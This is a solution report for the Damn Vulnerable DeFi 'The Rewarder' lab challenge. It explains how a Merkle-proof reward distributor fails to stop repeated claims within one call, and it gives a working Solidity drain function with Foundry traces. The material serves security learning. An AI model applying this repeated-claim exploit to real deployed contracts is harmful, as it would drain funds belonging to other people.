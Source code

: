 # Damn Vulnerable DeFi - The Rewarder - Solution Report

## Problem Analysis

### Contract Summary

The challenge centers on the `TheRewarderDistributor` contract, which is designed to distribute rewards in the form of Damn Valuable Tokens (DVT) and WETH. The main functionalities of this contract include:

1. `createDistribution`: Allows the creation of a new distribution for a specific token. It sets a Merkle root and the total amount to be distributed.

2. `claimRewards`: Enables users to claim rewards for multiple tokens in a single transaction. Users must provide proofs of their inclusion in the Merkle tree for each claim.

The contract uses Merkle proofs for efficient verification of claims and employs bitmaps to track which rewards have been claimed.

### Initial Setup

The challenge is initialized with the following key parameters:

- Total DVT distribution amount: 10 ether
- Total WETH distribution amount: 1 ether
- Alice's DVT claim amount: 2502024387994809 wei
- Alice's WETH claim amount: 228382988128225 wei

### Success Criteria

To successfully complete the challenge, the following conditions must be met:

DVT balance in the distributor contract should be less than 1e16 wei
WETH balance in the distributor contract should be less than 1e15 wei
The recovery account should receive all drained funds minus Alice's claims

## Vulnerability

The vulnerability in this challenge lies within the `claimRewards` function of the `TheRewarderDistributor` contract. The core issue is in the Merkle proof verification process, specifically in these lines:

```solidity
bytes32 leaf = keccak256(abi.encodePacked(msg.sender, inputClaim.amount));
bytes32 root = distributions[token].roots[inputClaim.batchNumber];

if (!MerkleProof.verify(inputClaim.proof, root, leaf)) revert InvalidProof();
```

The fundamental flaw is that the Merkle proof verification doesn't consider the accumulated claim amount. Instead, it only verifies that a single claim of a specific amount for a particular address is valid. This allows an attacker to repeatedly use the same valid proof to claim the same amount multiple times in a single transaction.

Additionally, the contract's attempt to prevent double-claiming is insufficient:

```solidity
if (!_setClaimed(token, amount, wordPosition, bitsSet)) revert AlreadyClaimed();
```

This check only prevents claiming the exact same set of batch numbers twice, but doesn't prevent multiple claims of the same batch number within a single claimRewards call.

These vulnerabilities combined allow an attacker to drain the contract by submitting multiple identical claims in one transaction, each passing the Merkle proof verification and accumulating the claim amount beyond the intended allocation.

## Attack Pattern

The attack exploits the vulnerability in the `claimRewards` function of the `TheRewarderDistributor` contract. The attack pattern follows these steps:

1. **Obtain Distribution Information:**

   - Retrieve the player's allocated amount and Merkle proof for both DVT and WETH from the distribution files.
   - This information is legitimate and would pass the Merkle proof verification.

2. **Prepare Multiple Claims:**

   - For each token (DVT and WETH):
     a. Calculate the maximum number of claims possible by dividing the total remaining amount in the distributor by the player's allocated amount.
     b. Create an array of identical claims, each containing:
     - Batch number: 0 (same for all claims)
     - Amount: The player's allocated amount
     - Token index: 0 for DVT, 1 for WETH
     - Proof: The legitimate Merkle proof obtained earlier

3. **Execute the Attack:**

   - Call the `claimRewards` function with the prepared array of claims for DVT.
   - The function will process each claim individually, and for each:
     - Verify the Merkle proof (which will pass)
     - Transfer the claimed amount to the attacker
   - Repeat the process for WETH.

4. **Transfer Drained Funds:**
   - After draining both DVT and WETH, transfer all the claimed tokens from the attacker's address to the designated recovery address.

## Proof of Concept (PoC)

The core implementation of the solution is in the `test_theRewarder` function of the `TheRewarderChallenge` contract. Here's a breakdown of the key components:

1. **Main attack function**

```solidity
function test_theRewarder() public checkSolvedByPlayer {
    // Get player's distribution info for DVT
    (uint256 playerDvtAmount, bytes32[] memory dvtProof) =
        getDistributionInfo("/test/the-rewarder/dvt-distribution.json", player);

    // Get player's distribution info for WETH
    (uint256 playerWethAmount, bytes32[] memory wethProof) =
        getDistributionInfo("/test/the-rewarder/weth-distribution.json", player);

    // Drain DVT
    drainToken(IERC20(address(dvt)), playerDvtAmount, dvtProof);

    // Drain WETH
    drainToken(IERC20(address(weth)), playerWethAmount, wethProof);

    // Transfer drained tokens to recovery address
    dvt.transfer(recovery, dvt.balanceOf(player));
    weth.transfer(recovery, weth.balanceOf(player));
}
```

2. **Function to drain a specific token**

```solidity
function drainToken(IERC20 token, uint256 amount, bytes32[] memory proof) internal {
    uint256 remaining = distributor.getRemaining(address(token));
    uint256 repeatCount = remaining / amount;

    Claim[] memory claims = new Claim[](repeatCount);
    IERC20[] memory tokens = new IERC20[](1);
    tokens[0] = token;

    for (uint256 i = 0; i < repeatCount; i++) {
        claims[i] = Claim({batchNumber: 0, amount: amount, tokenIndex: 0, proof: proof});
    }

    distributor.claimRewards(claims, tokens);
}
```

3. **Foundry Traces**

```
    ├─ [519] DamnValuableToken::balanceOf(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C]) [staticcall]
    │   └─ ← [Return] 9991970238730241694 [9.991e18]
    ├─ [24874] DamnValuableToken::transfer(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa], 9991970238730241694 [9.991e18])
    │   ├─ emit Transfer(from: player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], to: recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa], amount: 9991970238730241694 [9.991e18])
    │   └─ ← [Return] true
    ├─ [542] WETH::balanceOf(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C]) [staticcall]
    │   └─ ← [Return] 998938703105422020 [9.989e17]
    ├─ [24863] WETH::transfer(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa], 998938703105422020 [9.989e17])
    │   ├─ emit Transfer(from: player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], to: recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa], amount: 998938703105422020 [9.989e17])
    │   └─ ← [Return] true
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return]
    ├─ [519] DamnValuableToken::balanceOf(TheRewarderDistributor: [0x9c52B2C4A89E2BE37972d18dA937cbAd8AA8bd50]) [staticcall]
    │   └─ ← [Return] 5527736881763497 [5.527e15]
    ├─ [0] VM::assertLt(5527736881763497 [5.527e15], 10000000000000000 [1e16], "Too much DVT in distributor") [staticcall]
    │   └─ ← [Return]
    ├─ [542] WETH::balanceOf(TheRewarderDistributor: [0x9c52B2C4A89E2BE37972d18dA937cbAd8AA8bd50]) [staticcall]
    │   └─ ← [Return] 832913906449755 [8.329e14]
    ├─ [0] VM::assertLt(832913906449755 [8.329e14], 1000000000000000 [1e15], "Too much WETH in distributor") [staticcall]
    │   └─ ← [Return]
    ├─ [519] DamnValuableToken::balanceOf(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa]) [staticcall]
    │   └─ ← [Return] 9991970238730241694 [9.991e18]
    ├─ [519] DamnValuableToken::balanceOf(TheRewarderDistributor: [0x9c52B2C4A89E2BE37972d18dA937cbAd8AA8bd50]) [staticcall]
    │   └─ ← [Return] 5527736881763497 [5.527e15]
    ├─ [0] VM::assertEq(9991970238730241694 [9.991e18], 9991970238730241694 [9.991e18], "Not enough DVT in recovery account") [staticcall]
    │   └─ ← [Return]
    ├─ [542] WETH::balanceOf(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa]) [staticcall]
    │   └─ ← [Return] 998938703105422020 [9.989e17]
    ├─ [542] WETH::balanceOf(TheRewarderDistributor: [0x9c52B2C4A89E2BE37972d18dA937cbAd8AA8bd50]) [staticcall]
    │   └─ ← [Return] 832913906449755 [8.329e14]
    ├─ [0] VM::assertEq(998938703105422020 [9.989e17], 998938703105422020 [9.989e17], "Not enough WETH in recovery account") [staticcall]
    │   └─ ← [Return]
    └─ ← [Stop]
```
